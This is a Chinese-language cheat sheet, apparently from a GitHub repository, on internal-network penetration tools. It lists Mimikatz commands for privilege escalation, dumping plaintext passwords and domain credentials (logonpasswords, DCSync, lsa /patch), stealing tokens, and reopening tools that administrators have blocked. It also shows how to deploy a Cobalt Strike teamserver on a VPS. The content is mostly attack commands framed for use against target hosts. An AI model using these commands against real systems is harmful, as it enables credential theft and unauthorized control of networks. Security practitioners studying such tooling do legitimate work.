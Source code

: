 # 内网渗透工具使用

## Mimikatz密码抓取

> 项目地址：https://github.com/gentilkiwi/mimikatz
>
> 使用方法：工具上传到目标主机，通过system权限运行exe文件
>
> 语法：`Module::Function`，需要加参数的话为`/arg:value`
>
> 参考：https://blog.z3ratu1.cn/Mimikatz%E4%BD%BF%E7%94%A8%E7%AE%80%E7%95%A5.html

常见命令：

**提升权限**

```
privilege::debug		# 从administrator提升到system
```

**获取用户&密码**

这里需要管理员权限

```
sekurlsa::logonpasswords		# 获取当前在线用户的明文密码（需要高权限运行）
```

```
lsadump::DCSync			#在非域控机器上登录一个域管理员账户（非本地管理员）即可执行向DC要一个号的密码
lsadump::lsa /patch			#获取当前此计算机存在过用户
```

**杂项命令**

这三个命令在管理员禁止使用这三个东西的时候可以硬开出来

```
misc::cmd		# 开一个命令行
misc::taskmgr		# 开一个任务管理器
misc::regedit		# 开一个注册表编辑器
```

**信息收集**

```
net::user
net::wsession
net::group
```

**进程信息**

```
process::list		# 列出正在运行的进程

process::Resume			#恢复一个进程
process::Start		#启动一个进程
process::Stop		#结束一个进程
process::Suspend 		#挂起一个进程
均以/pid:为参数
```

**抓取，伪造假冒的已存在令牌**

需管理员权限，提升至system权限

```
token::elevate		# 可加参数/domainadmin，找到一个域管理员凭证并使用其令牌
token::whoami		# 显示当前身份
token::list		# 列出所有令牌
```



## Cobaltstrike渗透

> 项目地址：https://cobaltstrike.com/
>
> 使用方法：准备一个客户端，一个服务端（尽量是VPS），安装对应的服务
>
> 参考：https://zhuanlan.zhihu.com/p/93718885

被业界人称为CS其拥有多种协议主机上线方式，集成了提权，凭据导出，端口转发，socket代理，office攻击，文件捆绑，钓鱼等功能。同时，Cobalt Strike还可以调用Mimikatz等其他知名工具

早期版本CobaltSrtike依赖Metasploit框架，而现在Cobalt Strike已经不再使用MSF而是作为单独的平台使用，它分为客户端(Client)与服务端(Teamserver)，服务端是一个，客户端可以有多个，团队可进行分布式协团操作。

![image-20210719081443185](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210719081443185.png)

### 服务端部署

我们将安装包（这里包含服务端和客户端），放到VPS上，还需要准备一个java环境

![image-20210719083053277](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210719083053277.png)

> agscript拓展应用的脚本
>
> c2lint 用于检查profile的错误异常
>
> teamserver服务端程序
>
> cobaltstrike，cobaltstrike.jar客户端程序(java跨平台)
>
> logs目录记录与目标主机的相关信息
>
> update，update.jar用于更新CS
>
> third-party第三方工具

启动服务器

```
./teamserver x.x.x.x(IP) 连接密码
./teamserver 8.8.8.8 123456
```

启动后会告诉默认连接的端口号50050，本地客户端进行连接

![image-20210719085558033](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210719085558033.png)











### 常用命令

**枚举已连接上Teamserver的黑客用户**

```
/names
```

**用户通信**

```
/msg neo hello!
```



























